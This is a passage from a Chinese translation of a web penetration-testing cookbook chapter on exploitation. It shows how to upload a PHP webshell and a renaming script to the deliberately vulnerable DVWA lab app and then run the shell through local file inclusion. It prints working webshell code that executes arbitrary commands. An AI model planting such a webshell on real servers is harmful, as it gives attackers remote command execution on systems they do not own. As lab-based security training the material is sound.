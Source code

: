 # 第六章 利用 -- 低悬的果实

> 作者：Gilberto Najera-Gutierrez

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 简介

这章开始我们会开始涉及渗透测试的的利用层面。和漏洞评估的主要不同是，漏洞评估中测试者识别漏洞（多数时间使用自动化扫描器）和提出如何减轻它们的建议。而渗透测试中测试者作为恶意攻击者并尝试利用检测到的漏洞，并得到最后的结果：整个系统的沦陷，内部网络访问，敏感数据泄露，以及其它。同时，要当心不要影响系统的可用性或者为真正的攻击者留下后门。

之前的章节中，我们已经涉及了如何检测 Web 应用中的一些漏洞。这一章中我们打算了解如何利用这些漏洞并使用它们来提取信息和获得应用及系统受限部分的访问权。

## 6.1 恶意使用文件包含和上传

我们在第四章中看到，文件包含漏洞在开发者对生成文件路径的输入校验不当，并使用该路径来包含源代码文件时出现。服务端语言的现代版本，例如 PHP 自 5.2.0 起，将一些特性默认关闭，例如远程文件包含，所以 2011 年起就不大可能找到 RFI 了。

这个秘籍中，我们会上传一些恶意文件，其中之一是 Webshell（可用于在服务器中执行命令的页面），之后使用本地文件包含来执行它。

### 准备

这个秘籍中，我们会使用  vulnerable_vm  中的 DVWA ，并以中等安全级别配置，所以让我们将其配置起来。

1.  访问` http://192.168.56.102/dvwa`。

2.  登录。

3.  将安全级别设置为中。访问`DVWA Security`，在组合框中选择`medium`并点击`Submit`。

我们会上传一些文件给服务器，但是你需要记住它们储存在哪里，以便之后调用。所以，在 DVWA 中访问`Upload`并上传任何 JPG 图像。如果成功了，他会告诉你文件上传到了`../../hackable/uploads/`。现在我们知道了用于储存上传文件的相对路径。这对于秘籍就足够了。

我们也需要准备好我们的文件，所以让我们创建带有一下内容的文本文件：

```php
<? 
system($_GET['cmd']); 
echo '<form method="post" action="../../hackable/uploads/webshell. php"><input type="text" name="cmd"/></form>'; 
?>
```

将其保存为`webshell.php`。我们需要另一个文件，创建`rename.php`并输入下列代码：

```php
<? 
system('mv ../../hackable/uploads/webshell.jpg ../../hackable/uploads/ webshell.php'); 
?>
```

这个文件会接受特殊图像文件（`webshell.jpg`）并将其重命名为`webshell.php`。

### 操作步骤
